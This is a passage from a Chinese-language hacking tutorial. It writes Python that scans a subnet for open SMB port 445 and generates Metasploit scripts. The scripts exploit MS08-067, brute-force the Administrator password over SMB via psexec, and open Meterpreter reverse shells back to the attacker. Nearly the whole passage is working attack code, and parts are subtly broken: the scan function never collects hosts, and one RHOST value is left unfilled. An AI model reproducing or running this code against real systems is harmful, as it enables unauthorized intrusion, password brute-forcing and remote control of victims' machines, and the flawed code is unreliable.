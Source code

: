 首先需要扫描网段内所有开放 445 端口的主机，TCP 445 端口主要是作为 SMB 协议的默认端口用的

```python
import nmap
def find_target(sub_net):
    nm_scan = nmap.PortScanner()
    nm_scan.scan(sub_net, "445")
    target_hosts = list()
    for host in nm_scan.all_hosts():
        if nm_scan[host].has_tcp(445):
            state = nm_scan[host]["tcp"][445]["state"]
            if state == "open":
                print("[+] Found Target Host: {}".format(host))
	return target_hosts
```

接下来需要编写一个监听器，这个监听器或称命令与控制信道，用于与目标主机进行远程交互

Metasploit 提供了一个 Meterpreter 的高级动态负载，当 Meterpreter 进程回连接到攻击者的计算机等候执行进一步的命令时，要使用一个名为 `multi/handler` 的 Metasploit 模块去发布命令。接下来需要把各条指令写入 Metasploit 的 rc 脚本中

```python
def setup_handler(config_file, lhost, lport):
    config_file.write("use exploit/multi/handler\n")
    config_file.write("set PAYLOAD windows/meterpreter/reverse_tcp\n")
    config_file.write("set LPORT {}\n".format(lport))
    config_file.write("set LHOST {}\n".format(lhost))
    config_file.write("exploit -j -z\n")
    config_file.write("setg DisablePayloadHandler 1\n")
```

注意脚本发送了一条指令：在同一个任务（job）的上下文环境中（-j），不与任务进行即时交互的条件下（-z）利用目标计算机上的漏洞

```python
def conficker_exploit(config_file, target_host, lhost, lport):
    config_file.write("use exploit/windows/smb/ms08_067_netapi\n")
    config_file.write("set RHOST {}\n".format(target_host))
    config_file.write("set PAYLOAD windows/meterpreter/reverse_tcp\n")
    config_file.write("set LPORT {}\n".format(lport))
    config_file.write("set LHOST {}\n".format(lhost))
    config_file.write("exploit -j -z\n")
```

### 暴力破解口令，远程执行一个进程

需要用暴力攻击的方式破解 SMB 用户名/密码，以此获取权限在目标主机上远程执行一个进程（psexec）

```python
def smb_brute(config_file, target_host, passwd_file, lhost, lport):
    username = "Administrator"
    pf = open(passwd_file, "r")
    for password in pf.readlines():
        password = password.strip("\r\n")
        config_file.write("use exploit/windows/smb/psexec\n")
        config_file.write("set SMBUser {}\n".format(username))
        config_file.write("set SMBPass {}\n".format(password))
        config_file.write("set RHOST {}\n")
        config_file.write("set PAYLOAD windows/meterpreter/reverse_tcp\n")
        config_file.write("set LPORT {}\n".format(lport))
        config_file.write("set LHOST {}\n".format(lhost))
        config_file.write("exploit -j -z\n")
```
